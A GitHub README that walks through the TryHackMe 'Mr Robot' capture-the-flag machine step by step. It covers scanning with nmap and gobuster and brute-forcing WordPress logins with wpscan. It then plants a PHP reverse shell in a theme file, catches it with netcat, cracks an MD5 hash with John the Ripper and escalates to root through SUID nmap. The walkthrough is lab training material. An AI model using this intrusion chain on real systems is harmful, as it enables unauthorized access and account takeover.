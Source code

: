 # MRrobotCTF
#created this repo as a guide to mrrobot CTF/Vuln machine follow the steps have fun !
QMARK CTF



Steps:

#download the vpn file to connect tryhackme server

#save in desktop 

#open terminal in the folder and type command [sudo openvpn filename.octozion.ovpn]     //if you dont have openvpn installed follow this link https://openvpn.net/community-resources/installing-openvpn/

#Join the room

#Task 1:instructions 

#Task2 :

    KEY1 & 2 & 3 :
    #Cope the IP Address to the clipboard
    #Open terminal  make a folder to work with this CTF using the command [mkdir]
    #Run nmap on the ip address [sudo nmap -sV -A -sC 10.10.44.213 | tee nmapout.txt ]       //network scan and storing the result in nmapout.txt
    #Port  80 is open
    #Use burp suit > proxy > open browser > intercept off and paste the ip address
    #Use gobuster with the wordlist downloaded from my githum [sudo gobuster -u http://10.10.44.213/ dir -w wordlistgobuster.txt -x .txt | tee gobusterout.txt]
    #Found /wp-admin , robots.txt
    #check both the url
    #on checking robots.txt you'll get they open the [IP/key-1-of-3.txt] **1st key**
    
    #Use wp-scan [ sudo wpscan --url 10.10.35.137 --passwords simplefsociety.txt -U simplefsociety.txt ]
    #Download the shell https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
    #inside wp dashboard go to  appreance and editor
    #edit in 404.php code ane save and use netcat [nc -lvnp 1234 ]
    #To make the session more stabel [ python -c 'import pty;pty.spawn("/bin/bash")' ]
    #now to goto /home/robot two file now use command [cat password.raw-md5 ]
    #copy the md5 has and use john the ripper and save as mrrobot.hash
    #use john the ripper tool   [sudo john mrrobot.hash --wordlist=simplefsociety.txt --format=Raw-MD5]
    #got the password abcdefghijklmnopqrstuvwxyz
    #type su robot and type the password and cat the **2nd key**
    
    #use the command [find / -perm +6000 2>/dev/null | grep '/bin'] which checks the privilage excaltion to goto root
    #nmap is inside it 
    #now use https://gtfobins.github.io/gtfobins/nmap/	to  get the command for privillage excalation
    #nmap --interactive     //command to shift nmap interactive mode
    #nmap> !sh      //command to shit root
    # ls /root/     //gives the third key
    # cat the final **3rd key**

